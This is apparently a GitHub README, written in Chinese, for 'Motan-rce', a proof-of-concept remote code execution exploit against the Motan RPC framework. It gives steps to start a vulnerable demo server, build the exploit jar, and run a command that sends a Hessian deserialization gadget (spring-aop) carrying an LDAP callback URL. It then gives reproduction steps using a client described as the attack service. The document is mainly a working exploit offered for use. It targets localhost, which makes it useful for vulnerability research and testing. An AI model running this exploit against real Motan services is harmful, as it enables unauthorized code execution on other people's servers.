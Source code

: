 
# Motan-rce

## 快速利用

1. **motan-demo/motan-demo-server/src/main/java/com/weibo/motan/demo/server/DemoRpcServer.java** 启动Motan服务（漏洞靶场）

2. **编译rpc-rce：mvn clean package （jdk8+mvn3.2.5）**
```
java -jar dubbo-exp-1.0-SNAPSHOT-jar-with-dependencies.jar --target 127.0.0.1:8002 --protocol motan --serialization hessian  --gadget spring-aop --arg ldap://127.0.0.1:9988
```
![](https://github.com/zhzhdoai/Motan-rce/blob/master/poc.png)

## 漏洞复现

1. **motan-demo/motan-demo-server/src/main/java/com/weibo/motan/demo/server/DemoRpcServer.java** 启动Motan服务


2. **motan-demo/motan-demo-client/src/main/java/com/weibo/motan/demo/client/AnnotationRpcClientDemo.java** 运行攻击服务


# 鸣谢
rpc-rce框架拉取threedr3am/learnjavabug:https://github.com/threedr3am/learnjavabug.git

